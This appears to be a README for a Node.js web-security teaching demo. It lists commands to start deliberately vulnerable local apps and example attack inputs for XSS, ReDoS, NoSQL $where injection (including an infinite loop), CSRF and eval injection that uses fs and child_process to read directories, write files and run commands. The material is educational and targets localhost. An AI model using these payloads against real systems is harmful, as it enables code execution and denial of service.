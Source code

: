# Security

Slides <https://docs.google.com/presentation/d/1KbBG3Z1rTYcXCO8FHb8Br4K08nvQEDPgo2OXfUuWUAU/edit?usp=sharing>

## xss

Reflected:

    nodemon xss-reflected.js

    http://localhost:3000/?user=sam
    http://localhost:3000/?user=sam<script>alert('pwned')</script>

Stored:

    nodemon xss-stored.js

    http://localhost:3000/register
    http://localhost:3000/users

    <script>alert('pwned')</script>

DOM:

    nodemon xss-dom.js

    http://localhost:3000/?language=english
    http://localhost:3000/?language=english<script>alert('pwned')</script>

## DOS

    nodemon dos.js

    http://localhost:3000/register

    aaaaaaaaaaaaaaaaaaaaaaaa!

## NoSQL

    nodemon cats.js

    http://localhost:3000/create
    http://localhost:3000/find

    docker run -d -p 27017:27017 --expose 27017 --name mongo mongo
    docker run -it --link mongo:mongo --rm mongo sh -c 'exec mongo "$MONGO_PORT_27017_TCP_ADDR:$MONGO_PORT_27017_TCP_PORT"'

    # Mongo command ref
    show dbs
    use cats
    db.cats.find({})
    db.cats.remove({})
    db.dropDatabase()


    {
        "query": {
            "name": "Jessy",
            "$where": "function() { while(1);}"
        }
    }

    {
        "query": {
            "name": "Jessy",
            "$where": "function() { return true}"
        }
    }

    // { $where: function() { return db.getCollectionNames().length == 1} }

## CSRF

    nodemon csrf.js

    http://mybank.com:3000
    http://badsite.com:3001

## Injection

    nodemon cats.js

    http://localhost:3000/eval

    {"catArray": "['Sam','Jessy']"}

    https://nodejs.org/api/fs.html

    {"catArray": "fs=require('fs');fs.readdirSync('/')"}

    {"catArray": "fs=require('fs');fs.writeFileSync('/tmp/safe', 'hello')"}

    {"catArray": "cp=require('child_process');cp.execSync('/usr/bin/say pwned')"}
    {"catArray": "cp=require('child_process');cp.execSync('open /Applications/Calculator.app')"}

    {"catArray": "fs=require('fs');fs.writeFileSync('/tmp/watch.js', 'setInterval(function(){console.log(1)},2000)');cp=require('child_process');cp.exec('node /tmp/watch.js')"}


## CSP

    nodemon cats.js

## x-powered-by

    app.disable('x-powered-by');

